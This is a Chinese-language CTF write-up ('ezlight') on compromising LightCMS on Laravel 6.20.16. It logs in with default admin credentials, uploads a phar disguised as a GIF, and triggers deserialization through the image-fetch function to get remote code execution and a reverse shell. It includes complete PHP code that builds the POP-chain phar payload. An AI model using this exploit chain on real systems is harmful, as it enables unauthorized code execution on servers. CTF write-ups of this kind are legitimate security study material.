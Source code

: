 ## ezlight

题目是 lightcms 最新版本。github 上搜索历史漏洞，发现[https://github.com/eddy8/LightCMS/issues/19](https://github.com/eddy8/LightCMS/issues/19)，不过任意文件读取与getshell的漏洞已经修复。分析patch代码：

```php
protected function fetchImageFile($url)
    {
        try {
            if (!filter_var($url, FILTER_VALIDATE_URL)) {
                return false;
            }

            $ch = curl_init();
            $options =  [
                CURLOPT_URL => $url,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_USERAGENT => 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.2 (KHTML, like Gecko) Chrome/22.0.1216.0 Safari/537.2'
            ];
            curl_setopt_array($ch, $options);
            $data = curl_exec($ch);
            curl_close($ch);
            if (!$data) {
                return false;
            }

            if (isWebp($data)) {
                $image = Image::make(imagecreatefromwebp($url));
                $extension = 'webp';
            } else {
                $image = Image::make($data);
            }
        } catch (NotReadableException $e) {
            return false;
        }

        $mime = $image->mime();
        return [
            'extension' => $extension ?? ($mime ? strtolower(explode('/', $mime)[1]) : ''),
            'data' => $data
        ];
    }

    protected function isAllowedImageType($extension)
    {
        $c = config('light.neditor.upload');

        return in_array('.' . $extension, $c['imageAllowFiles'], true);
    }
```

使用 `Intervention\Image\Facades\Image`来进行图片处理，看起来无法绕过，无法读取文件，只能上传图片文件。

默认后台密码 admin / admin 登陆进去，发现 Laravel 版本是 6.20.16，审计代码发现后台大多操作是数据库操作， 可能存在 getshell 的点较少。考虑文件上传 + phar 反序列化。

### POP链

Laravel 版本是 6.20.16，网上分析的RCE POP链大多是 5.x 版本，经测试[https://nikoeurus.github.io/2019/12/16/laravel5.8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#POP%E9%93%BE1](https://nikoeurus.github.io/2019/12/16/laravel5.8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#POP%E9%93%BE1)这条链子在 laravel 6.x 7.x 同样适用，所以直接用这条 `dispatch`的链子就可以。

### 文件上传

我们需要将 phar 文件上传到服务器，虽然 catchImage 远程下载文件对文件内容检查很严格，但是文件上传处较为松散，一般的添加 GIF 文件头就可以成功上传

```php
<?php

namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;

        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }

    }

    class BroadcastEvent
    {
      protected $connection;

      public function __construct($connection)
      {
        $this->connection = $connection;
      }
    }

}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;

        public function __construct($queueResolver)
        {
          $this->queueResolver = $queueResolver;
        }

    }
}

namespace{
    $command = new Illuminate\Broadcasting\BroadcastEvent('whoami');

    $dispater = new Illuminate\Bus\Dispatcher("system");

    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispater,$command);
    $phar = new Phar('phar.phar');
    $phar -> stopBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($PendingBroadcast);
    $phar -> stopBuffering();
    rename('phar.phar','phar.jpg');

}


```

### 触发点

现在最后一步就是需要找到触发点，即我们可控的一个文件处理函数。审计代码发现这个cms并没有太多文件操作。

注意到修复代码 `fetchImageFile`函数存在如下操作：

![image-20210221200204849](wp/image-20210221200204849.png)

在获取到远程url的内容后，会调用 `Intervention\Image\Facades\Image`的 `make`方法，进行图片的解析。

跟进，会跳到 `vendor/intervention/image/src/Intervention/Image/AbstractDecoder.php`中 `AbstractDecoder`类的 `init`方法，判断数据类型：

![image-20210221200536668](wp/image-20210221200536668.png)

可以看到 data 不仅可以是图片的二进制数据 ，还可以是这些数据格式，跟进 `initFromUrl`方法：

![image-20210221200734108](wp/image-20210221200734108.png)

非常明显的 file_get_contents，所以我们可以在 vps 上放置一个 txt 文件，内容为 `phar://./upload/xxx`，然后让服务器来取这个文件，即可触发反序列化。

### RCE

下面是 RCE 流程，注意这里命令执行没有回显，需要反弹shell。

首先使用前面的代码生成 phar 文件（命令改为反弹shell的），在后台添加文章处上传图片：

![image-20210221201407544](wp/image-20210221201407544.png)

得到文件路径 `upload/image/202102/AciwTtmKQ7IQN4gdeoiZ6ve4A0LSK48SGJGk38df.gif`。

在 vps 上放置一个文件，内容为 `phar://./upload/image/202102/AciwTtmKQ7IQN4gdeoiZ6ve4A0LSK48SGJGk38df.gif`，请求：

![image-20210221202051916](wp/image-20210221202051916.png)



可以反弹到shell：

![image-20210221202128407](wp/image-20210221202128407.png)

